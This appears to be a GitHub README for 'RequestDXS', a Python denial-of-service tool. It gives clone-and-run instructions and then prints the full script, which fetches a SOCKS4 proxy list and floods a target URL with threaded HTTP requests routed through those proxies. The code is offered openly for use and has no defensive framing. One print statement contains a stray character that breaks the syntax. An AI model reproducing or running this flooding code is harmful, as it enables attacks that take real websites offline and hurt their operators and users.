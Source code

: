 # Information
RequestDXS is a Python DoS tools that launch attacks using requests modules and socks proxy.
More info about **requests** library can be found on [Python Requests Documentation](https://docs.python-requests.org/en/latest/)
## How To Use
How do i use this tools? Simple, just git clone the repository using **git** 
```
git clone https://github.com/KaliDecrypt/requestdxs/
```
And after that **cd** into the cloned folder, and run it with
```
python3 proxy.py
```
# Complete Code
If you are too lazy to clone the repository, just simply copy it from here!
### Python
```python
#!/usr/bin/python3

import requests
import random
import time
import threading

def opth(): 
	for i in range(thr):
		x = threading.Thread(target=atk)
		x.start()
		print("[!] Threads " + str(i+1) + " created")
	print("[!] Please wait a few seconds before launching the attack")
	time.sleep(3)
	input("Press enter to launch...")
	global on 
	on = True

on = False
def main():
	global pprr
	global list
	global proxy
	global url
	global pwr
	global thr
	global on
	url = str(input("[+] Target URL : "))
	thr = int(input("[+] Threads : "))
	cho = str(input("[+] Get fresh socks list? (y/n) : "))
	if cho =='y':
		rsp = requests.get('https://api.proxyscrape.com/?request=displayproxies&proxytype=socks4&timeout=1000&country=all') #Code By GogoZin
		with open('socks.txt','wb') as fp:
			fp.write(rsp.content)
			print("[!] Socks downloaded!")
	else:
		pass
	list = str(input("[+] Socks List (socks.txt): "))
	if list =="":
		list = 'socks.txt'
	else:
		list = str(list)
	pprr = open(list).readlines()
	print("[!] Total socks : " + "%d " %len(pprr))
	pwr = int(input("[!] Packets : "))
	opth()

def atk():
	pprr = open(list).readlines()
	proxy = random.choice(pprr).strip().split(":")
	s = requests.session()
	s.proxies = {}
	s.proxies['http'] = ("socks4://"+str(proxy[0])+":"+str(proxy[1]))
	s.proxies['https'] = ("socks4://"+str(proxy[0])+":"+str(proxy[1]))
	time.sleep(10)
	while True:
		while on:
			try:
				s.get(url)
				try:
					for y in range(pwr):
						s.get(url)
						print("[!] Flooding => [ " + str(proxy[0])+":"+str(proxy[1]) +" ] "E)
					s.close
				except:
					s.close()
			except:
				s.close()
				print("[!] Cant connect to the socks, skipping.")


if __name__ == "__main__":
	main()
```
